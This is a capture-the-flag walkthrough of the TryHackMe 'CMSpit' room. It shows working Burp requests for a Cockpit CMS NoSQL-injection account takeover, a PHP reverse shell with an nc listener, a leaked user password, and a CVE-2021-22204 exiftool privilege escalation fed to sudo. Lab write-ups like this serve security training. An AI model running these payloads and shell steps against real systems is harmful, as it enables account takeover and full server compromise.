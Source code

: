 # CMSpit

**Room Link:** [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



CMS Version is 0.11.1

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### User account compromise

This CMS version has a exploit to help us find users.

**Exploit:** [**https://swarm.ptsecurity.com/rce-cockpit-cms/**](https://swarm.ptsecurity.com/rce-cockpit-cms/)[ ](https://swarm.ptsecurity.com/rce-cockpit-cms/)



**Burp**

```
GET /auth/requestreset HTTP/1.1
Host: 10.10.198.113
Content-Length: 25
Content-type: application/json

{
  "user":"admin"
}
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Burp**

```
GET /auth/resetpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 38
Content-type: application/json

{
"token":{
"$func":"var_dump"
}
}
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
GET /auth/newpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 66
Content-type: application/json

{
"token":"rp-25badb6dbd66e39732cc3abf8122ba9065b6ee57e7610"
}

```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Did the same thing for user skidy

**Burp**

```
GET /auth/newpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 66
Content-type: application/json

{
"token":"rp-4472f7f85a07bbc1b08d917a298ad0f365b6e7ce6d85e"
}

```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I don't know if the last part was really necessary. I think maybe the reset token can be different then the other token in which case the above step would be necessary but its the same so I just updated the password for skidy.

**Burp**

```
GET /auth/resetpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 88
Content-type: application/json

{
"token":"rp-4472f7f85a07bbc1b08d917a298ad0f365b6e7ce6d85e",
"password":"hacked"
}

```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can now login as Skidy

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
nc -lvnp 1234 
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement (Stux)

**Victim**

```
cd /home/stux
cat .dbshell
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su stux
Password: p4ssw0rdhack3d!123
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**Exploit:** [https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py](https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py)

**Victim(receiving)**

```
nc -l -p 1234 > cve.tar.gz
```

**Kali(sending)**

```
git clone https://github.com/se162xg/CVE-2021-22204.git
tar cvf cve.tar.gz  CVE-2021-22204/
nc -w 3 $VICTIM 1234 < cve.tar.gz
```

**Victim**

```
tar xvf cve.tar.gz 
cd CVE-2021-22204
```

**Victim**

```
bash craft_a_djvu_exploit.sh '/bin/bash'
sudo /usr/local/bin/exiftool delicate.jpg 
```

<figure><img src="../../.gitbook/assets/image (772).png" alt=""><figcaption></figcaption></figure>

